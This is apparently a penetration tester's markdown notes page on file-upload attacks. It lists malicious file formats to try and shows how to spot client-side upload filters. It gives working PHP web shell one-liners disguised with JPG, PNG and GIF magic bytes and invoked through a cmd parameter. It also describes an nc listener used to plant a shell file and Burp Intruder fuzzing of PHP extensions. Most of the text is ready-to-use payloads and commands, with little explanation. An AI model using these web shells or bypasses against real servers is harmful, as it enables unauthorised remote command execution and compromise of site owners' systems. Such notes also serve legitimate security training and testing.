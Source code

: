 ```yaml
---
category: Uncategorized
tags: []
---
```

#### formats
Windows: Try asp, aspx, hta, doc malicious file uploads.
Web: Try php

#### weevely
[[Weevely]]

#### filter bypass
Inspect for filters from web page:
Right click on "Chose File" button > Inspect

Look for some form of "accept=" property.
ALSO, look in main file, such as main.js

![[Pasted image 20220905133644.png]]

Look into `allowedMimeType` for file types.
In this example, we see we can upload xml files.

[[11._XML XXE#Quick file upload win]]

#### Magic bytes
Magic bytes are used to identify the type of the file, and are usually found at the beginning of it. Other files have the magic bytes at their offset, while some other files (such as plain text files) do not have magic bytes at all. The position of the magic bytes also varies on different filesystems. 

JPG:
Adding magic bytes for the JPG format to our PHP file might let us bypass this check.  We can refer to the list of magic bytes at https://en.wikipedia.org/wiki/List_of_file_signatures. 

Valid magic bytes for a JPG/JPEG file are:
1. `FF D8 FF DB`
2. `FF D8 FF E0 00 10 4A 46 49 46 00 01`
3. `FF D8 FF EE`
4. `FF D8 FF E1 ?? ?? 45 78 69 66 00 00`

![[Pasted image 20220922121011.png]]

```bash - kali
echo 'FFD8FFDB' | xxd -r -p > webshell.php.jpg 
```

```bash - kali
echo '<?=`$_GET[cmd]`?>' >> webshell.php.jpg
```

![[Pasted image 20220922121036.png]]

`http://$TARGET/uploads/webshell.php.jpg?cmd=whoami`

PNG:
The magic bytes for PNG are:
1. `89 50 4E 47 0D 0A 1A 0A`

```bash - kali
echo '89504E470D0A1A0A' | xxd -r -p > webshell.php.png
```

```bash - kali
echo '<?=`$_GET[cmd]`?>' >> webshell.php.png
```

`http://$TARGET/uploads/webshell.php.png?cmd=whoami`

#### GIF

Upload Shelly.php as a "GIF"

```
GIF8;
<?php echo system($_REQUEST['cmd']); ?>
```

#### File upload webshell

Set listener on port 4444 to output any connection to shelly.php.
```php
<?php echo exec('nc -lvnp 4444 > shelly.php 2>&1'); ?>.php
```

Use nc to connect and transfer shelly.php.
```bash - kali
nc -nv IP 4444 < shelly.php
```

Visit file upload to connect reverse shell.

### Bypassing extension limits.
1. Capture and upload in Burp. 
2. Send to Intruder.
3. Dictionary attack the extension (PHP example below).

```burpsuite - kali
php
php3
php4
php5
phtml
```

